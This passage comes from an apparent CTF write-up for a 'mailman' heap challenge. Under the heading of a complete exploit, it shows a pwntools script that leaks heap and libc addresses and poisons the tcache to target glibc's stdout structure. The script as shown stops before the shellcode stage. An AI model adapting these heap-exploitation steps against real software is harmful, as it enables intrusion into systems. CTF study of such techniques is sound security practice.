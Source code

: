 To write the shellcode we will then find the `rip` value and allocate a chunk accordingly so that we can execute shellcode. In my case I was facing some issue allocating chunk to the corresponding `rip` value. Thus I allocated the chunk little before the `rip` and then overwrote the `rip` with shellcode.

Here is the complete exploit

```py
from pwn import *

elf = context.binary = ELF("./vuln",checksec=False)
p = remote("mailman.chal.imaginaryctf.org", 1337)
# p = elf.process()
libc = elf.libc

# gdb.attach(p,'''
#     init-gef
#     c
# ''')
           
def defuscate(x,l=64):
    a = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (a & (0xf << i+12 )) >> i+12
        a |= (v1 ^ v2) << i
    return a

def obfuscate(x, adr):
    return x^(adr>>12)

def write_letter(index,size,content):
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b"idx:",str(index).encode())
    p.sendlineafter(b"size:",str(size).encode())
    p.sendlineafter(b"content",content)

def send_letter(index):
    p.sendlineafter(b">",b"2")
    p.sendlineafter(b"idx:",str(index).encode())

def read_letter(index):
    p.sendlineafter(b">",b"3")
    p.sendlineafter(b"idx:",str(index).encode())
    return(p.recvline()[1:-1])

for i in range(7):
    write_letter(i,0x100,b"a"*8)
write_letter(8,0x100,b"prev"*8)
write_letter(9,0x100,b"c"*8)
write_letter(10,0x90,b"d"*8)
for i in range(7):
    send_letter(i)
send_letter(9)
send_letter(8)
write_letter(10,0x100,b'a'*8)
send_letter(9)
heap_leak = defuscate(u64(read_letter(1).ljust(8,b"\x00")))
libc.address = u64(read_letter(8).ljust(8,b"\x00")) - 0x219ce0
log.critical(f"libc base: {hex(libc.address)}")
log.critical(f"heap leak: {hex(heap_leak)}")

write_letter(1,0x130,b"a"*0x108 + p64(0x111) + p64(obfuscate(libc.sym._IO_2_1_stdout_,heap_leak+0x880)))
write_letter(2,0x100,b"a"*8)
```